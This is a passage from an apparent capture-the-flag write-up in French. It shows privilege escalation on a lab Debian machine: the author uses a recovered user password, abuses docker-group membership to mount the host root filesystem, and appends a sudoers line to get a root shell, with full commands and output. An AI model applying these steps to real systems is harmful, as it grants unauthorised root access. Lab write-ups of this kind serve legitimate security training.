 On dispose justement du mot de passe de l'utilisateur *jeevan* (*hannahmontana*). On peut changer d'utilisateur via la commande *su*.  

Cet utilisateur est membre du groupe Docker. On va créer un container en indiquant que l'on veut monter le disque de la machine. L'accès root obtenu dans le container nous permettra d'accéder au système de fichier de l'hôte.  

```console
jeevan@debian:/$ docker images  
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE 
bash                latest              0980cb958276        20 months ago       13.1MB 
alpine              latest              a24bb4013296        20 months ago       5.57MB 
hello-world         latest              bf756fb1ae65        2 years ago         13.3kB

jeevan@debian:/$ docker run -v /:/mnt/ -it alpine /bin/sh   
/ # cd /mnt 
/mnt # cd etc 
/mnt/etc # cat sudoers 
# 
# This file MUST be edited with the 'visudo' command as root. 
# 
# Please consider adding local content in /etc/sudoers.d/ instead of 
# directly modifying this file. 
# 
# See the man page for details on how to write a sudoers file. 
# 
Defaults        env_reset 
Defaults        mail_badpass 
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin" 

# Host alias specification 

# User alias specification 

# Cmnd alias specification 

# User privilege specification 
root    ALL=(ALL:ALL) ALL 

# Allow members of group sudo to execute any command 

# See sudoers(5) for more information on "#include" directives: 

#includedir /etc/sudoers.d 
/mnt/etc # echo "jeevan ALL=(ALL) ALL" >> sudoers 
```

Avec cette ligne ajoutée au fichier *sudoers* je peux obtenir un shell root :  

```console
jeevan@debian:/$ sudo su 
[sudo] password for jeevan:  
root@debian:/# id 
uid=0(root) gid=0(root) groups=0(root) 
root@debian:/# cd /root 
root@debian:~# ls 
bitnami  bitnami_credentials  jeevan  root.txt 
root@debian:~# cat root.txt  

                    _       _                 _                              _     
 __ __ __  ___     | |     | |      o O O  __| |    ___    _ _      ___     | |    
 \ V  V / / -_)    | |     | |     o      / _` |   / _ \  | ' \    / -_)    |_|    
  \_/\_/  \___|   _|_|_   _|_|_   TS__[O] \__,_|   \___/  |_||_|   \___|   _(_)_   
_|"""""|_|"""""|_|"""""|_|"""""| {======|_|"""""|_|"""""|_|"""""|_|"""""|_| """ |  
"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'./o--000'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'

```